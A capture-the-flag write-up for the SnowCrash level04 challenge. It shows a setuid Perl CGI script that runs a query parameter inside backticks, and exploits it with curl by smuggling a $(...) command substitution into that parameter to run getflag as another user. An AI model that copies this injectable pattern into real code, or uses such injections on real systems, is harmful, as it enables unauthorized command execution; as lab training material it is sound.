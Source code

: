 # Snowcrash04

Ok so we have a similar situatuon

```bash
~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Ok so we seem to have a script that is running on localhost:4747, and we can indeed ping the address and port combo

There a sub function called x and not much else.
x is called with param("x") as an argument and if we pass a query string argument named x it indeed does something

```bash
~$ curl localhost:4747?x=42
42
```
So basically it makes the y var as the first arg of the function, then prints it, and by printing it, we mean print the result run an echo $y command, this is our entrypoint.

```
level04@SnowCrash:~$ curl localhost:4747?x=ls
ls
```
yeah it can't be that easy, let's take a look at the string that gets executed

```
print `echo $y 2>&1`
which is then made to look like
print `echo ls 2>&1`
but what if we did something like
print `echo $(ls) 2>&1`
```
Ok that seems to work, and it does with getflag as well

We also tricked the flag04 user to run getflag for us, no need to login